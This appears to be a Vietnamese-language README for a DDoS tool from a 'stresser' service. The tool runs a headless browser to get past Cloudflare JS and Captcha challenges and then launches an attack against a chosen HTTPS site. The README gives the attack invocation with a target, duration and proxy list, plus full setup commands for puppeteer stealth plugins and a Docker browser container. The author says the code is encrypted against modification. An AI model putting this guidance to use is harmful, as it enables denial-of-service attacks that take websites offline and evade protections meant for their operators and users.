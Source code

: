 Phương thức bỏ qua này sẽ gửi yêu cầu ban đầu thông qua Trình duyệt để bỏ qua JS và khi đạt đến 16 lần bỏ qua, nó sẽ bắt đầu tấn công. Nó chỉ hoạt động trên các trang web HTTPS://.

Phương pháp này sạch sẽ và không chứa bất kỳ vi rút nào nhưng tôi đã mã hóa nó để ngăn chặn sự sửa đổi của những người không phải là tác giả.

Nó hoạt động chủ yếu trên Cloudflare JS và Captcha nhưng có thể hoạt động trên các biện pháp bảo vệ khác, nó có thể cần sửa đổi trên thư viện flare.

Phương pháp này được mã hóa bởi @jeffspender cho CryptoS Stresser.com

Phương thức bỏ qua này sẽ gửi một yêu cầu ban đầu thông qua trình duyệt để bỏ qua JS và khi đạt đến 16 lần bỏ qua, nó sẽ khởi động cuộc tấn công. Nó chỉ hoạt động với các trang web HTTPS://.

Phương pháp này sạch sẽ và không chứa bất kỳ vi rút nào, nhưng tôi đã mã hóa nó để ngăn những người không phải tác giả sửa đổi.

Nó chủ yếu hoạt động với Cloudflare JS và Captcha, nhưng có thể hoạt động trên các biện pháp bảo vệ khác, nó có thể yêu cầu sửa đổi thư viện flare.

Phương thức này được mã hóa bởi @jeffspender. CryptoS Stresser.com

Yêu cầu: ./browser-linux https://exitus.me/ 300 proxies.txt

Cài đặt phần mềm được yêu cầu và khởi động lại máy chủ:

sudo apt -y install curl dirmngr apt-transport-https lsb-release ca-certificates;curl -sL https://deb.nodesource.com/setup_12.x | sudo -E bash -;sudo apt -y install nodejs;sudo apt -y install gcc g++ make;sudo apt -y install htop vnstat;sudo apt-get install -y unzip;sudo apt -y install screen;sudo apt -y install unrar;sudo apt -y install golang-go; go get github.com/erikdubbelboer/gspt; npm i await-timeout;npm i console-log-level;npm i events; npm i request;npm i chalk; npm i hpagent; npm i got; npm i crypto; npm i cheerio; npm i url; npm i axios; npm i https; npm i request-curl;npm i user-agents; npm i uuid; npm i tmp-promise; npm i puppeteer-extra;npm i puppeteer-extra-plugin-stealth;npm i sleep-promise; npm i puppeteer-extra-plugin-adblocker;sudo apt install apt-transport-https ca-certificates curl software-properties-common; curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -;sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu focal stable"; sudo apt update; sudo apt install docker-ce; sudo curl -L "https://github.com/docker/compose/releases/download/1.26.0/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose;sudo chmod +x /usr/local/bin/docker-compose; echo  "\n${gren}Installation Modules Required Done, Preparing the Next Stage..\n${white}"; sleep 6; npm install puppeteer; sudo apt install -y gconf-service libasound2 libatk1.0-0 libc6 libcairo2 libcups2 libdbus-1-3 libexpat1 libfontconfig1 libgcc1 libgconf-2-4 libgdk-pixbuf2.0-0 libglib2.0-0 libgtk-3-0 libnspr4 libpango-1.0-0 libpangocairo-1.0-0 libstdc++6 libx11-6 libx11-xcb1 libxcb1 libxcomposite1 libxcursor1 libxdamage1 libxext6 libxfixes3 libxi6 libxrandr2 libxrender1 libxss1 libxtst6 ca-certificates fonts-liberation libappindicator1 libnss3 lsb-release xdg-utils wget; sudo apt-get install -y libgbm-dev;echo -e "\n${red}Reboot Server Required..\n${white}"; sleep 6; reboot

Khởi động phiên bản trình duyệt Chrome:

cd /root/flare/8120; export PUPPETEER_PRODUCT=firefox; sudo npm install;node node_modules/puppeteer/install.js;export PUPPETEER_PRODUCT=firefox; docker-compose up -d; docker build -t cryptostresser:custom .;screen -S browser -dms LIBCRYPTOSTRESSER docker run -p 8120:8120 -e LOG_LEVEL=debug cryptostresser:custom

Đảm bảo rằng trình duyệt đang chạy với:

trình duyệt thứ ba trên màn hình
